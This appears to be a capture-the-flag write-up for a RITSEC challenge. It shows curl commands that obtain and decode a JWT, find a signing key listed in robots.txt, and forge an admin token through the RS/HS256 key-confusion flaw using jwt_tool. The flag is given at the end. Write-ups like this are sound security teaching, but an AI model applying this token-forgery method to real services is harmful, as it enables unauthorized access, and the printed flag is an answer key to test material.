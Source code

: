 #### Challenge:

```
ctfchallenges.ritsec.club:3000
ctfchallenges.ritsec.club:4000
```

Hint: You don't need the Bearer keyword!

---

#### Solution:

The link `http://ctfchallenges.ritsec.club:3000` returns:

```
This page is only for authentication with our api, located at port 4000!
```

The link `http://ctfchallenges.ritsec.club:4000` returns:

```
API Documentation

Below are some of the api endpoints that you can use. Please use them responsibly :)!
Use the format below to make your requests to the API.

Nodes 	Description
/api/admin

    For admin users to authenticate. Please provide us your authorization token given to you by the /auth endpoint.

/api/normal

    For standard users to authenticate. Please provide us your authorization token given to you by the /auth endpoint.

/auth

    Authentication endpoint on port 3000. Please send your name and this api will return your token for accessing the api!
```

After generating access token via `/auth` endpoint we get an `JWT` token:

```bash
TOKEN=$(curl -sS 'http://ctfchallenges.ritsec.club:3000/auth?name=user' | jq -r '.token');

echo $TOKEN
echo $TOKEN | base64 -di
```

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoidXNlciIsInR5cGUiOiJhZG1pbiIsImlhdCI6MTU3Mzg2MTUyNn0.ZWozILI1krYPnizFIayZn-Bya0RmFyYKjNrxTBA57Xk
{"typ":"JWT","alg":"HS256"}{"name":"user","type":"admin","iat":1573861526}Z��,�d����1Hk&g&�Far`����base64: invalid input
```

With this token we are able to authenticate at `/api/normal` endpoint (note: send the token in `Authorization` header without the `Bearer` keyword) to get response:

```bash
curl -sS 'http://ctfchallenges.ritsec.club:4000/api/normal' -H "Authorization: $TOKEN"
```

```bash
{"flag":"Congrats on authenticating! Too bad flags aren't for normal users !!"}
```

Trying that on the `/api/admin` gets us `403` (even with trying the `(CVE-2015-2951) The alg=none signature-bypass vulnerability`):


```bash
{"reason":"Not an admin!"}
```

So we need to use the `(CVE-2016-10555) The RS/HS256 public key mismatch vulnerability` same way as in [File Rover challenge](../../challenges.reply.com/filerover/README.md ":ignore"), but for that, we need the public key but the endpoints are plain old HTTP. Luckily, we noticed that in the source code of `http://ctfchallenges.ritsec.club:4000`, there is a hint:

```html
<!-- Robots can help you with the api -->
```

Checking the `http://ctfchallenges.ritsec.club:3000/robots.txt` we get:

```yaml
User-agent: *
Disallow: /signing.pem
Disallow: /auth
```

With the `signing.pem` and the `"normal user token"` we can use the
[jwt_tool](https://github.com/ticarpi/jwt_tool) the same way as in the [File Rover challenge](../../challenges.reply.com/filerover/README.md ":ignore") and send the forged admin token to the `/api/admin` endpoint to finally get the flag.

---

<details><summary>FLAG:</summary>

```
RITSEC{JWT_th1s_0ne_d0wn}
```

</details>
<br/>
